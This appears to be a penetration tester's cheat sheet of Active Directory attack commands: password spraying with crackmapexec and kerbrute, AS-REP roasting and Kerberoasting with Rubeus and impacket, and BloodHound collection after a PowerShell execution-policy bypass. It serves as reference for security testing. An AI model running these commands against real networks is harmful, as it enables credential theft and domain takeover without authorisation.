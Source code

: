 
### Password Spraying
#### Check Policy
```
crackmapexec <ip> -u <user> -p <password> --pass-pol
enum4linux -u <user> -p <pass> -P <ip>
net accounts
```
#### Spray
```
#Windows
.\Spray-Passwords.ps1 -Pass Nexus123! -Admin
.\kerbrute_windows_amd64.exe passwordspray -d corp.com .\usernames.txt "Nexus123!"

#Linux
crackmapexec smb <target_ips> -u <user_list> -p <pass_list> -d <domain> --continue-on-success
crackmapexec winrm <target_ips> -u <user_list> -p <pass_list> -d <domain> --continue-on-success
crackmapexec rdp <target_ips> -u <user_list> -p <pass_list> -d <domain> --continue-on-success

#DON'T FORGET TO USE --local-auth to try local password spray.
```
#### AS-REP Roasting
```
#Gets all users.
impacket-GetADUsers -all -dc-ip <dc_ip> <domain>/<username>

#Roasting
.\Rubeus.exe asreproast /nowrap
impacket-GetNPUsers.py <domain>/ -usersfile <usernames.txt> - format hashcat -outputfile <hashes.txt>
```
#### Kerberoasting
```
#Roasting
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
impacket-GetUserSPNs --request -dc-ip <ip> <domain>/<user>:<password>
```


### BloodHound
#### Data collection
```
powershell -ep bypass
Import-Module .\sharphound.ps1
Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\Users\<user>\Desktop\ -OutputPrefix "audit results"
```
#### Data Analysis

```
sudo neo4j start
sudo bloodhound
http://localhost:7474 (neo4j:kali)
```
- Import zipped data.
- Check Shortest Paths Analysis.
- Right click objects that are owned. For example users and client machines.
- Then choose "Shortest Path to Domain Admins from owned Principals".